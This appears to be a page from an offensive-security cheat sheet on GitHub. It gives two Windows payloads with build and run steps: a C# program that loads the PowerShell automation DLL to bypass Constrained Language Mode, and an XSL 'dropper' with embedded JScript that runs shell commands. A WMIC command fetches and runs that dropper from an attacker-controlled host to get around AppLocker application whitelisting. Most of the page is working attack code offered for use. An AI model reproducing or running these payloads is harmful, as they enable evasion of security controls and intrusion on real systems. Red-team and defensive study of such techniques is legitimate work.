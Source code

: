 ##### _Payload leveraging PowerShell Automation – bypass CLM:_
This payload leverages the powershell automation dll so the native Windows PowerShell executable is not touched and therefore can bypass CLM \(only CLM not AppLocker\)\.
- 1\. Copy the following code to Visual Studio:
    ```Csharp
    using System;
    using System.Management.Automation;
    using System.Management.Automation.Runspaces;
    
    namespace Bypass
    {
        class Program
        {
            static void Main(string[] args)
            {
                Runspace rs = RunspaceFactory.CreateRunspace();
                rs.Open();
                PowerShell ps = PowerShell.Create();
                ps.Runspace = rs;
                String cmd = "<PS command to execute>";
                ps.AddScript(cmd);
                ps.Invoke();
                rs.Close();
            }
        }
    }
    ```
- 2\. Add the automation reference before building: References > Add Reference > Browse > "C:\\Windows\\assembly\\GAC\_MSIL\\System\.Management\.Automation\\1\.0\.0\.0\_\_31bf3856ad364e35\\System\.Management\.Automation\.dll":

##### _XSL payload & WMIC exec method \- bypass application whitelisting:_
This payload can be used as an application whitelisting bypass method in a full AppLocker \(5/5\) enabled environment\. This payload is suitable as a first dropper payload to download and run the actual applocker bypass payload\. So this will not bypass AppLocker/CLM by itself and therefore you need to use additional bypass techniques like 'InstallUtil' or white\-listed directories to actually run a beacon payload\.
- 1\. Modify the following code and save it as dropper\.xsl:
    ```XML
    <?xml version='1.0'?>
    <stylesheet version="1.0"
    xmlns="http://www.w3.org/1999/XSL/Transform"
    xmlns:ms="urn:schemas-microsoft-com:xslt"
    xmlns:user="http://mycompany.com/mynamespace">
    
    <output method="text"/>
        <ms:script implements-prefix="user" language="JScript">
            <![CDATA[
            runC = "cmd.exe /c <command 1> && timeout 4 && <command 2>";
            new ActiveXObject("WScript.Shell").Run(runC,0,true);
            ]]>
        </ms:script>
    </stylesheet>
    ```
- 2\. Run the dropper\.xsl file from a remote location: `C:\Windows\System32\wbem\WMIC.exe process get brief /format:"http://<own ip>/dropper.xsl"`
